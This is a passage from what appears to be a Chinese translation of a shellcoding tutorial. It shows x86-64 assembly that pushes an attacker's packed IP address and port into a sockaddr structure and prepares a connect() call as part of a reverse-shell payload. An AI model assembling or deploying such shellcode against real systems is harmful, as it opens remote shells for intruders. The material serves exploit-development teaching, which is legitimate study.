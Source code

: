 接下来是填充 `mysockaddr` 结构，除了我们必须以 32 位打包格式推出攻击者的 IP 地址。我们将使用 Python 来做到这一点：

![](img/00217.gif)

所以我们的 IP 地址以 32 位打包格式是 `01eea8c0`。

让我们构建我们的结构并将栈指针移动到 RSI：

```
xor rax, rax 
push dword 0x01eea8c0
push word 0xd204
push word 0x02

mov rsi, rsp
```

现在，让我们构建 `connect` 函数：

```
 connect(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));
```

然后，运行以下命令：

```
$ man 2 connect
```

前面命令的输出显示在以下截图中：

![](img/00218.gif)
